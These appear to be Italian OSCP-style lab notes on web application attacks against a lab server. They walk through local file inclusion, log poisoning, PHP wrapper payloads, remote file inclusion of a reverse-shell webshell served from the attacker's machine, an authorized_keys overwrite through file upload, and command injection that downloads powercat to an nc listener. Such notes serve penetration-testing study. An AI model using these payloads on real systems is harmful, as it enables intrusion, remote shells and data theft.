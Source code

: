 ## 9.2.1 Local File Inclusion (LFI)

```bash
curl http://mountaindesserts.com/meteor/index.php?page=admin.php
```

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
```

Richiesta catturata su burp:
```bash
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log HTTP/1.1
Host: 192.168.235.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

**Log Poisoning**, medicando la richiesta e aggiungendo codice eseguibile:
```bash
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log HTTP/1.1
Host: 192.168.235.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0 <?php 3ch0 syst3m(----cmd-----); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Nel laboratorio successivo veniva richiesto di operare in ambiente windows:
```bash
GET /meteor/index.php?page=../../../../../../../../../xampp\apache\logs\access.log&cmd=type+hopefullynobodyfindsthisfilebecauseitssupersecret.txt HTTP/1.1
Host: 192.168.235.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http:192.168.235.193/meteor/index.php?page=../../../../../../../../../xampp\apache\logs\access.log
Upgrade-Insecure-Requests: 1
```

## 9.2.2. PHP Wrappers

```bash
curl http://$IP/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php

echo "e9yuh44UHIUBFSBDKJKJB" | base64 -d

curl "http://$IP/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

curl "http://$IP/meteor/index.php?page=data://text/plain,<?php%203cho%20sist3m('uname+-a');?>"
```

## 9.2.3. Remote File Inclusion (RFI)

```bash
cd /usr/share/webshells/php

python3 -m http.server 9999

curl "http://$IP/meteor/index.php?page=http://$MY_IP:9999/BACK.PHP&cmd=...
```
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

## 9.3.1. Using Executable Files

Nel primo esercizio era richiesto di exploitare la vulnerabilità di file upload. Per farlo bisognava semplicemente caricare un file presente nella cartella /usr/share/webshells/php e modificare l'estenzione da php a pHP.

Se si volesse ottenere una reverse-shell, si potrebbe procedere nel seguente modo:

<p align="center">
  <img src="/OSCP/Immagini_OSCP/Capitolo_9/Using_Executable_Files_1.png" />
</p>

<p align="center">
  <img src="/OSCP/Immagini_OSCP/Capitolo_9/Using_Executable_Files_2.png" />
</p>

## 9.3.2. Using Non-Executable Files

In questo caso, non potendo caricare direttamente una webshell, l'obiettivo era quello di sovarscrivere il file **authorized_keys** file attraverso il meccanismo del file upload.

<p align="center">
  <img src="/OSCP/Immagini_OSCP/Capitolo_9/Using_Non-ExecutableFiles_1.png" />
</p>

```bash
cp fileup > authorized_keys
```

<p align="center">
  <img src="/OSCP/Immagini_OSCP/Capitolo_9/Using_Non-ExecutableFiles_2.png" />
</p>

```bash
ssh -p 2222 root@$IP -i fileup
```

## 9.4.1. OS Command Injection

Il primo lab consisteva nel sfruttare una vulnerabilità di command injection combinando un comando consentito (git), con qualcosa che ci potesse permettere di ottenere una reverse shell.
Molto utile questo code snipper per capire dove il codice è eseguito:

<p align="center">
  <img src="/OSCP/Immagini_OSCP/Capitolo_9/OS_Command_Injection_1.png" />
</p>

Successivamente è stato copiato questo file nella directory dove si stava operando, avviando un server python:

```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

python3 -m http.server 80
```

Poi è stato avviato un listener:

```bash
nc -nvlp 4444
```

Ed è stato iniettato il comando per scaricare powercat ed eseguire una reverse shell:

<p align="center">
  <img src="/OSCP/Immagini_OSCP/Capitolo_9/OS_Command_Injection_2.png" />
</p>

## CAPSTONE

- Start by using nmap to find open ports, with a focus on HTTP ports.
- Visit these HTTP ports and explore the main page for potential vulnerabilities.
- To upload files successfully, identify the web server type and compatible file types for server-side scripting (ASPX)
- After uploading a file to the target, the index page provides hints on locating your webshell. (PORT 80 MAIN DIRECTORY)
- Once you access your webshell, the final step is to read the flag, typically found under the C:\inetpub\ directory.

